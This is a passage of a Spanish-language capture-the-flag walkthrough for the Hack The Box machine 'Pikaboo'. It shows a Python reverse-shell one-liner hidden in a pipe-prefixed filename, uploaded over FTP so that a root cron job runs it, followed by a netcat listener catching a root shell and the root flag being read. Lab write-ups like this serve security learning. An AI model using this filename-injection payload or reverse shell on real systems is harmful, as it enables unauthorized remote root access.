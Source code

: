 Para subir la revshell en Python les debe quedar asi:

```python
"|python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("\"10.10.14.27\"",443));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("\"sh\"")';.csv"

```
Subamos la revshell de python al ftp.

```bash

ftp> cd versions
250 Directory successfully changed.
ftp> put "|python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("\"10.10.14.27\"",443));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("\"sh\"")';.csv"
local: |python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("10.10.14.27",443));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")';.csv remote: |python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("10.10.14.27",443));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")';.csv
229 Entering Extended Passive Mode (|||44973|)
150 Ok to send data.
sh: 1: .csv: not found
226 Transfer complete.
ftp> 

```

Volvemos al nc y vemos que ganamos acceso como root, recuenden que una vez que gane acceso se salen de la shell y se vuelven a poner en escucha, esto se debe porque la tarea crob se ejecuta cada unos minutos.

```bash

# whoami
whoami
root
# pwd
pwd
/home/void/HackTheBox/Pikaboo/content
# exit
exit
❯ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.249] 45868
# whoami
whoami
root
# pwd
pwd
/srv/ftp/versions
# cd /root
cd /root
# ls
ls
root.txt  vsftpd.log
# cat root.txt
cat root.txt
5680f12063f4e16faf5922e6ec559389
# ifconfig
ifconfig
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.249  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:554c  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:554c  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:55:4c  txqueuelen 1000  (Ethernet)
        RX packets 371477  bytes 66506127 (63.4 MiB)
```